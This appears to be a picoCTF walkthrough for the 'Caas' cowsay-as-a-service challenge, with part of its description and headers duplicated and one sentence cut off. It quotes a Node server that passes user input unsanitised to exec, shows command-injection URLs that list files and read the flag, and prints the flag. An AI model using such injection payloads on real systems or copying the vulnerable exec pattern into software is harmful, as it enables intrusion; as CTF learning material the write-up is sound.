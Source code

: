 # Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough


# Caas

## Description

Now presenting [cowsay as a service](https://caas.mars.picoctf.net/ "Link to CTF challenge homepage")

Challenge Endpoints:

Download index.js	[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js "CTF Challenge JavaScript File")

## Hints

* (None)

## Walkthrough

If we visit the [link provided](https://caas.mars.picoctf.net/ "CTF challenge link") we'll see a website that allows us to print a message in cowsay](https://en.wikipedia.org/wiki/Cowsay "Wikipedia page for Cowsay").

> Cowsay as a Service
>
> Make a request to the following URL to cowsay your message:
>
> https://caas.mars.picoctf.net/cowsay/{message}

[Cowsay](https://en.wikipedia.org/wiki/Cowsay "Wikipedia page for Cowsay") is a program that generates ASCII art based on a custom message provided by the user. By default, the message appears above a cows head, like so:

```
 ______________________________
< This is an example of Cowsay >
 ------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

In Linux we can use Cowsay with the command ```cowsay <MESSAGE>```.

Given the above information, we can assume that the website provided for this challenge is using any message we provide as an argument to the ```cowsay``` command. We can verify this by viewing the contents of the [script provided in the challenge description](./index.js "CTF challenge script").

```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Here, we can see that our message gets passed to the cowsay command and is executed by JavaScripts ```exec``` function, but it is not sanitized in anyway. Meaning we can potentially exploit this vulnerability.

```javascript
exec(`/usr/games/cowsay ${req.params.message}
```

We

```
https://caas.mars.picoctf.net/cowsay/hi;ls%20-la

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
total 52
drwxr-xr-x  1 root root  4096 Jun 16  2021 .
drwxr-xr-x  1 root root  4096 Jul 14 15:19 ..
-rw-r--r--  1 root root    14 May  5  2021 .dockerignore
-rw-r--r--  1 root root   278 May  5  2021 Dockerfile
-rw-r--r--  1 root root    73 May  5  2021 falg.txt
-rw-r--r--  1 root root   424 Jun 16  2021 index.js
drwxr-xr-x 52 root root  4096 May  5  2021 node_modules
-rw-r--r--  1 root root   135 May  5  2021 package.json
drwxr-xr-x  2 root root  4096 May  5  2021 public
-rw-r--r--  1 root root 14600 May  5  2021 yarn.lock
```

```
https://caas.mars.picoctf.net/cowsay/hi;cat%20falg.txt

 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```
